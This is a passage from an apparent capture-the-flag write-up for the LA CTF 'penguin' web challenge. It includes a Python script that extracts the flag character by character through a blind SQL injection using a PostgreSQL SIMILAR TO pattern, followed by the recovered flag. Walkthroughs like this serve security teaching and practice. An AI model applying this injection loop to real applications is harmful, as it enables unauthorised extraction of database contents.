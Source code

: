 ```py
        print("failed: ", payload)
```

`findflag.py`
```py
from requests import *
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    if len(payloadEnd) > 0:
        payloadEnd = payloadEnd[:-1]
    else:
        break
    for c in digits + ascii_lowercase + ascii_uppercase:
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        if r.status_code == 200:
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        payloadStart += "_"
        print("skipping: ", payload)
```

Due to infrastructure issues, the first character of the flag couldn't be retrieved. I had to guess it (in quite a few attempts xd). P.S. It seems like there was a way to exfiltrate the first character of the flag. I'll act like I didn't see that.

![Execution of the final script](vid/FinalPayload.gif)

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`
